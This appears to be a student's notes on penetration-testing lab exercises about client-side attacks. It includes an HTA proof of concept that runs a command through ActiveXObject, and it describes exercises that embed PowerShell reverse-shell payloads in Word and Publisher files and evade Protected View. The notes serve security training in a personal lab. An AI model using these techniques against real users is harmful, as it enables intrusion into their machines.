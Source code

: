 # 13.2.3 Leveraging HTML Application
#### Exercises
_(To be performed on your own Kali and Windows lab client machines)_

**1.  Use msfvenom to generate a HTML Application and use it to compromise your Windows client.**

If a file is saved as with an .hta instead of an .htm extension, internet explorer will automatically interpret it as HTML and off the ability to execute using mshta.exe. Since the HTML application is being executed outside the safety of the browser, we are free to use dangerous legacy code that may normally be blocked within the browser. For the following example we are going to leverage ActiveXObjects.

The following PoC should launch the calculator in our test environment:
```
<html>
<body>

<script>

  var c= 'calc.exe'
  new ActiveXObject('WScript.Shell').Run(c);
  
</script>

</body>
</html>
```



**2.  Is it possible to use the HTML Application attack against Microsoft Edge users, and if so, how?**

# 13.3.3 Microsoft Word Macro
#### Exercises

# 13.3.5 Object Linking and Embedding
#### Exercises
_(To be performed on your own Kali and Windows lab client machines)_

**1.  Use the PowerShell payload to create a batch file and embed it in a Microsoft Word document to send a reverse shell to your Kali system.**


# 13.3.7Evading Protected View
#### Exercises
_(To be performed on your own Kali and Windows lab client machines)_

**1.  Trigger the protection by Protected View by simulating a download of the Microsoft Word document from the Internet.**
**2.  Reuse the batch file and embed it in a Microsoft Publisher document to receive a reverse shell to your Kali system.**
**3.  Move the file to the Apache web server to simulate the download of the Publisher document from the Internet and confirm the missing Protected View.**